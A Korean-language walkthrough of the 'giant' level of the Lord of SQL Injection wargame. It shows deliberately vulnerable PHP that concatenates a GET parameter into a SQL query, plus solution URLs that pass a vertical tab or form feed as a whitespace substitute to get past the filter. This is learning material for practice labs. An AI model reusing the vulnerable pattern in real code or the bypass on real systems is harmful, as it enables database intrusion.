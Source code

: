 # Lord of SQL Injection No.14 - giant
## 문제 출제 의도 
\n, \r, \t, 공백을 사용하지 않고 공백의 효과를 낼 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```
~~~
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
~~~
+ 공백과 공백 효과를 내는 값들을 필터링한다.
~~~
$query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
~~~
+ shit 값에 공백이 들어가면 문제가 풀리는 것을 알 수 있다.
## Solution
1. vertical tap 사용
~~~
http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0B
~~~
+ vertical tap(0x0B)을 shit 값으로 전달해주면 문제가 풀린다.
2. form feed 사용
~~~
http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0C
~~~
+ form feed(0x0C)를 shit 값으로 전달해주면 문제가 풀린다. 